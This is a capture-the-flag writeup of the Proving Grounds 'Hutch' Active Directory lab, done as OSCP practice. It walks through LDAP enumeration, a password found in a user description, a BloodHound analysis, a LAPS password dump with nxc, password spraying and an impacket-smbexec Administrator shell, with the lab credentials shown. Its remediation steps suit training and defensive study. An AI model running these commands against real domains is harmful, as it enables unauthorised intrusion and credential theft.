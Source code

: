 ```yaml
---
layout: writeup
title: Hutch - Proving Grounds
date: 2024-08-02 13:32:20 +0300
description: A Writeup of the Hutch Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, Bloodhound, LAPS, Cadaver]
---
```


Ok, here's a writeup of Craft2 from [Proving Grounds](https://www.offsec.com/labs/). It is part of TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#), and Proving Grounds has rated it to be Intermediate, though the Proving Grounds Community has rated it as Hard. As usual, I kick things off with an nmap scan, using vanilla nmap for this one with a few flags. The full command is: `nmap -A -sC -p- -v -T4 --open -o nmap.txt 192.168.248.122`

We have quite a few ports open here:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Wed, 21 Aug 2024 22:26:33 GMT
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-21 22:25:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49755/tcp open  msrpc         Microsoft Windows RPC

```

First off, we can see from the output that the machine is in the `hutch.offsec` domain so we add that to our `/etc/hosts` file. We also have a few different ports to try for low hanging fruit, and we have a web server on port 80, so I run a directory scan in the background while I run a few other commands the easy stuff. 

For sub-domains: `gobuster dns -d hutch.offsec -t 25 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt`
For directories: `feroxbuster -u http://hutch.offsec`

Neither of these turn up anything interesting, especially given when we actually check the browser, we see we have a Windows Server landing page for port 80. 

![Hutch1.png](/assets/images/Hutch/Hutch1.png){: .responsive-image}

No matter, like I said there are a few other commands to check. For the smb server on port 445, we run `smbclient -L \\\\192.168.248.122\\ -N` which does connect but doesn't list shares. We run enum4linux (`enum4linux -a hutch.offsec > enum4linux`) to check if anything stands out, but we don't get much beyond a confirmation of the domain. We do see LDAP is showing on a few ports, so we check ldapsearch, and that shows a bit more interesting stuff: `ldapsearch -x -H ldap://192.168.248.122 -b "dc=hutch,dc=offsec" > ldapsearch`. 

We can `grep` the output for name, userPrincipalName, and perhaps most useful, sAMAccountName:

![Hutch2.png](/assets/images/Hutch/Hutch2.png){: .responsive-image}

This looks like a pretty good list of users on the back half. We can look around a bit more and confirm Administrator is there as usual as well. So that's pretty helpful, and we can add them all to a users file using cut: `cat ldapsearch | grep sAMAccountName | cut -d : -f 2 > usernames.txt`. We should get rid of everything except Guest (+ Administrator), but it's faster than doing it manually. Usernames.txt now looks like this:
```
Administrator 
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```

We search through the ldapsearch output a bit more, and we find something else interesting in the description entry for `fmcsorley`: 

![Hutch3.png](/assets/images/Hutch/Hutch3.png){: .responsive-image}

Could it be a clue?! We can go back over pretty much everything now that we actually have a potential password to test with. We try a few of the same commands with creds now (as well as a few RCE attempts with impacket), and it works with smbclient (We also add `fmcsorley:CrabSharkJellyfish192` to creds.txt):

![Hutch4.png](/assets/images/Hutch/Hutch4.png){: .responsive-image}

Unfortunately, it seems like both NETLOGON and SYSVOL are empty. Interesting. At that point I decided to just get more information from `bloodhound-python` to see if I could find anything:

`bloodhound-python -u "fmcsorley" -p 'CrabSharkJellyfish192' -d hutch.offsec -c all --zip -ns 192.168.248.122`

![Hutch5.png](/assets/images/Hutch/Hutch5.png){: .responsive-image}

We can see from clicking around for a little bit that the user we already have access to has the `ReadLAPSPassword` permission. This is 


`nxc ldap 192.168.248.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.248.122 -M laps`

![Hutch6.png](/assets/images/Hutch/Hutch6.png){: .responsive-image}

I didn't actually know which user this password corresponded to, so I ran `nxc` to check against the list of usernames I had access to:`nxc smb 192.168.248.122 -u usernames.txt -p 'z]8oLLqK5vSeD+' -d hutch.offsec --continue-on-success`

![Hutch7.png](/assets/images/Hutch/Hutch7.png){: .responsive-image}

And it looks like it's the Administrator! Nice, so the only thing left to do is pop a shell and get some flags. I foolishly used impacket-smbexec instead of evil-winrm, but thats how you know I'm not just copy/pasting this from another author: `impacket-smbexec hutch.offsec/Administrator:z]8oLLqK5vSeD+@192.168.248.122`

![Hutch8.png](/assets/images/Hutch/Hutch8.png){: .responsive-image}

#### Lessons learned
- I realized that while I got the proof.txt immediately because I got access as Administrator, there actually are two flags on this box. When I tried to use `cd` to look around, I realized that I couldn't because I was using `impacket-smbexec`. So that's a point for `evil-winrm`.
- Also, in bloodhound make sure to every high value target as high value. In this case the target host wasn't, just the DC, even though I think they are effectively the same. 

![Hutch9.png](/assets/images/Hutch/Hutch9.png){: .responsive-image}

- I didn't know this, but after reading some other writeups after the fact, it seems that we should notice that there is a webdav share available, and there is a tool called `cadaver` which allows us to access it and treat it much like an FTP server or SMB share. In this case, we are able to put a reverse shell there or at least a web shell. We can then visit it in the browser by going to `http://$target/shell`. 

![Hutch10.png](/assets/images/Hutch/Hutch10.png){: .responsive-image}

#### Remediation Steps
- Remove fmcsorley's password from the description. 
- Remove fmcsorley's ability to readLAPSPassword if they don't need it. 
- Secure the webdav share. 